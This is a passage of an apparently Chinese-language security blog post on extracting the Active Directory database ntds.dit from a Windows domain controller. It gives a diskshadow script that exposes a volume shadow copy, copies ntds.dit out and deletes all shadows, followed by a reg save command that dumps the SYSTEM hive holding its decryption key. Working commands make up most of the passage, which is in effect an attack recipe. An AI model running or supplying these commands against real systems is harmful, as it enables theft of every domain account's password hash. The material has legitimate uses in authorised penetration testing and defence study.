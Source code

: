     //分配虚拟磁盘盘符  
      
    expose %someAlias% z:  
      
    //将ntds.dit复制到C盘中  
      
    exec "cmd.exe" /c copy z:\\windows\\ntds\\ntds.dit c:\\ntds.dit  
      
    //删除所有快照  
      
    delete shadows all  
      
    //列出系统中的卷影拷贝  
      
    list shadows all  
      
    //退出  
      
    reset  
      
    exit  
    

执行如下命令，注意这里需要进入C:\Windows\System32目录下执行，否则会报错

    
    
    diskshadow /s C:\\command.txt

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115523.png)

导出ntds.dit后，可以将system.hive转储。因为system.hive中存放着ntds.dit
的密钥，所以没有该密钥，将无法查看ntds.dit中的信息

    
    
    reg save hklm\\system c:\\windows\\temp\\system.hive

  

往期推荐

[

如何自己实现一个Psexec

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247484970&idx=1&sn=48820c92bde98d5283dd93bd4f665373&chksm=ce64bc96f9133580ce7c9a1d37a6c615e5ddc1a970560d28bb0865e8201d8253e70bab4d09d7&scene=21#wechat_redirect)[

java安全之dnsurl探究

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247484884&idx=1&sn=18d9d008edc94a38d47ccfcd797325a9&chksm=ce64bf68f913367eaba70e3ce72302dc0c767401804cf4c040c63f7379ffde08e90d8243efb6&scene=21#wechat_redirect)[

记一次略坑靶场渗透(下)

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247484850&idx=1&sn=096c38f5b760710f3ef9684305a47688&chksm=ce64bf0ef91336189b79645291ccff8c50088c9e3cc788e3f19eb905c2101cf0d449f8df775e&scene=21#wechat_redirect)[

一次略坑靶场渗透（上）

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247484794&idx=1&sn=454f1485a34d4d331974bee5326d4946&chksm=ce64bfc6f91336d0dababa4ff28824ce92769bf4b0c5a499a1b0caff29f2c62ce1e2176c71e7&scene=21#wechat_redirect)[
